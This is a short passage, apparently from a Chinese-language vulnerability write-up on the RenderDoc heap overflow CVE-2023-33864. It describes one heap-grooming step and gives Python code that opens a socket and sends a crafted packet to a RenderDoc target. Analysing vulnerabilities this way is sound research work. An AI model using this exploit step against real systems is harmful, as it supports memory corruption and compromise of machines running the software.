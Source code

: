 1. 起一个新的连接，这个连接虽然不会起调试线程，但整个过程会分配并释放一个 64KB 的 m_BufferBase 缓存，和一个长度为0x130的 callstack 堆块。

```python
s = socket(AF_INET, SOCK_STREAM)
s.connect((ip, port))
packet = p32(0x2 | ChunkCallstackFlag) \
        + p32(0x26) \
        + b'\x01\x01\x01\x01\x01\x01\x01\x01' * 0x26 \
        + p32(0xe) \
        + p32(9) \
        + p32(0x5) + b'ts588' \
        + p32(0) + b'\x02' * 54
    
s.sendall(packet)
```

![截屏2025-05-27 20.00.34.png](/assets/posts/2025-05-27-CVE-2023-33864-RenderDoc堆溢出漏洞分析/%E6%88%AA%E5%B1%8F2025-05-27_20.00.34.png)
